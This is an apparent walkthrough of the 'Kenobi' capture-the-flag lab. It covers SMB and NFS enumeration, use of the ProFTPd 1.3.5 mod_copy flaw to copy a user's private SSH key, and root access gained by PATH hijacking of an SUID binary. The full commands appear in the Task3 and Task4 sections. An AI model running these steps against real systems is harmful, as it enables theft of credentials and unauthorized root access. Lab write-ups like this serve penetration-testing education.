

# Kenobi

This room will cover accessing a Samba share, manipulating a vulnerable version of proftpd to gain initial access and escalate your privileges to root via an SUID binary.


## Task1 
```bash
nmap -sC -sV --script vuln -oN kenobi.txt  10.10.251.121
```

## Task2 
Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares!
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.251.121
```
SMB has two ports, 445 and 139

```bash
PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 02:75:CB:41:DD:E5 (Unknown)

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.251.121\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.251.121\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.251.121\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 1.26 seconds
```
Alternatively, we can use “smbclient” to list shares of the target machine.
```bash
smbclient -L \\\\10.10.119.18\\
```
On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.
```bash
smbclient //10.10.251.121/anonymous
```

We can recursively download the SMB share too. Submit the username and password as nothing.
```bash
smbget -R smb://10.10.251.121/anonymous
```

```bash
cat log.txt | more
# I found out the port for ftp is 21
```

Our earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.
```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.251.121

Starting Nmap 7.60 ( https://nmap.org ) at 2024-04-12 21:10 BST
Nmap scan report for ip-10-10-251-121.eu-west-1.compute.internal (10.10.251.121)
Host is up (0.00014s latency).

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836904.0  6876724.0  22%   16.0T        32000
MAC Address: 02:75:CB:41:DD:E5 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.96 seconds
```

# Task3
To find the version of the FTP we can run netcat

```bash
netcat <IP> 21
```

We can seachsploit which is based on [exploit-db](exploit-db.com) find vunrebilities respect to that version.

```bash
searchsploit ProFTPd 1.3.5
----------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                         |  Path
----------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)              | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                    | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                              | linux/remote/36742.txt
----------------------------------------------------------------------- ---------------------------------
```
To get the exploit we can run
```bash
searchsploit -m <exploit_id>
```
The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

```bash
netcat  10.10.251.121 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.251.121]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
```bash
mkdir /mnt/kenobiNFS
mount 10.10.251.121:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@<IP>
```

# Task4 

<p align="center">
   
</p>

| Permission | On Files | On Directories |
|------------|----------|----------------|
| SUID Bit   | User executes the file with permissions of the file owner | - |
| SGID Bit   | User executes the file with the permission of the group owner. | User executes the file with the permission of the group owner. File created in directory gets the same group owner. |
| Sticky Bit | No meaning | Users are prevented from deleting files from other users. |

To find this we can use this command:
```bash
find / -perm -u=s -type f 2>/dev/null
```

The /usr/bin/menu should not S bit is on which is out of ordenery.

<p align="center">
   
</p>
We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!
